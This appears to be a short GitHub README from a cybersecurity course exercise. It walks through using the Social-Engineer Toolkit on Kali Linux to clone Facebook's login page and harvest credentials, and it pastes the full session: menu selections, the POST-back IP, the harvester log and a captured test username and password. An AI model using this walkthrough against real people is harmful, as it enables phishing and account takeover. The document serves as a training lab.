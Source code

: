 # webclone-phishing
Desafio do curso de especialista em cybersecurity da DIO
1-Entre no kali linux
2-setoolkit



          !\_________________________/!\
          !!                         !! \
          !! Social-Engineer Toolkit !!  \
          !!                         !!  !
          !!          Free           !!  !
          !!                         !!  !
          !!          #hugs          !!  !
          !!                         !!  !
          !!      By: TrustedSec     !!  /
          !!_________________________!! /
          !/_________________________\!/
             __\_________________/__/!_
            !_______________________!/
          ________________________
         /oooo  oooo  oooo  oooo /!
        /ooooooooooooooooooooooo/ /
       /ooooooooooooooooooooooo/ /
      /C=_____________________/_/

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.                                                    
                                                                                                        
   The Social-Engineer Toolkit is a product of TrustedSec.                                              
                                                                                                        
           Visit: https://www.trustedsec.com                                                            
                                                                                                        
   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!                                       
                                                                                                        
                                                                                                        
 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 2

The Web Attack module is a unique way of utilizing multiple web-based attacks in order to compromise the intended victim.

The Java Applet Attack method will spoof a Java Certificate and deliver a metasploit based payload. Uses a customized java applet created by Thomas Werth to deliver the payload.

The Metasploit Browser Exploit method will utilize select Metasploit browser exploits through an iframe and deliver a Metasploit payload.

The Credential Harvester method will utilize web cloning of a web- site that has a username and password field and harvest all the information posted to the website.

The TabNabbing method will wait for a user to move to a different tab, then refresh the page to something different.

The Web-Jacking Attack method was introduced by white_sheep, emgent. This method utilizes iframe replacements to make the highlighted URL link to appear legitimate however when clicked a window pops up then is replaced with the malicious link. You can edit the link replacement settings in the set_config if its too slow/fast.

The Multi-Attack method will add a combination of attacks through the web attack menu. For example you can utilize the Java Applet, Metasploit Browser, Credential Harvester/Tabnabbing all at once to see which is successful.

The HTA Attack method will allow you to clone a site and perform powershell injection through HTA files which can be used for Windows-based powershell exploitation through the browser.

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report

-------------------------------------------------------------------------------
--- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

The way that this works is by cloning a site and looking for form fields to
rewrite. If the POST fields are not usual methods for posting forms this 
could fail. If it does, you can always save the HTML, rewrite the forms to
be standard forms and use the "IMPORT" feature. Additionally, really 
important:

If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
IP address below, not your NAT address. Additionally, if you don't know
basic networking concepts, and you have a private IP address, you will
need to do port forwarding to your NAT IP address from your external IP
address. A browser doesns't know how to communicate with a private IP
address, so if you don't specify an external IP address if you are using
this from an external perpective, it will not work. This isn't a SET issue
this is how networking works.

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.12]:             
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:https://www.facebook.com/

[*] Cloning the website: https://www.facebool.com/                                                     
[*] This could take a little bit...                                                                     

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                        
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                          
[*] Information will be displayed to you as it arrives below:                                           
[*] Looks like the web_server can't bind to 80. Are you running Apache or NGINX?
Do you want to attempt to disable Apache? [y/n]: y
Stopping apache2 (via systemctl): apache2.service.
Stopping nginx (via systemctl): nginx.service.
[*] Successfully stopped Apache. Starting the credential harvester.
[*] Harvester is ready, have victim browse to your site.
192.168.1.9 - - [26/May/2023 18:09:36] "GET / HTTP/1.1" 200 -
*] WE GOT A HIT! Printing the output:
PARAM: route_urls[0]=/                                                                                  
PARAM: routing_namespace=igx_www                                                                        
PARAM: __d=www                                                                                          
POSSIBLE USERNAME FIELD FOUND: iuser@gmail                                                                 
PARAM: __a=1                                                                                            
PARAM: __req=3                                                                                          
PARAM: __hs=19503.HYP:facebook_web_perf_holdout_pkg.2.1..0.0                                           
PARAM: dpr=1                                                                                            
PARAM: __ccg=EXCELLENT                                                                                  
PARAM: __rev=1007573189                                                                                 
PARAM: __s=g6c5ul:v6gtrw:8p2abh                                                                         
PARAM: __hsi=7237616349427951231                                                                        
PARAM: __dyn=7xeUmwlE7ibwKBWo2vwAxu13w8CewSwMwNw9G2S0lW4o0B-q1ew65xO2O1Vw8G1Qw5Mx61vw9m1YwBgao6C0Mo5W3S7U2cxe0EUjwGzE2swwwNwKwHw8Xwn82Lx_w4HwJwSyES1Twoob82ZwrUdUco2Ywmo6O0A8                                   
PARAM: __csr=hkGs8POGyl9mAlGBZJsPBryyk8J5yEBGQ5U724WuieUlxa8gB5CyUOUoBDK00jvK0LfxG0JQ2Gau29w2L8mpp940mC0xUdEJS0qioYw6Iw5q                                                                                       
PARAM: __comet_req=28                                                                                   
PARAM: lsd=AVqOW8RZPE8                                                                                  
PARAM: jazoest=2863                                                                                     
POSSIBLE PASSWORD FIELD FOUND:123456   
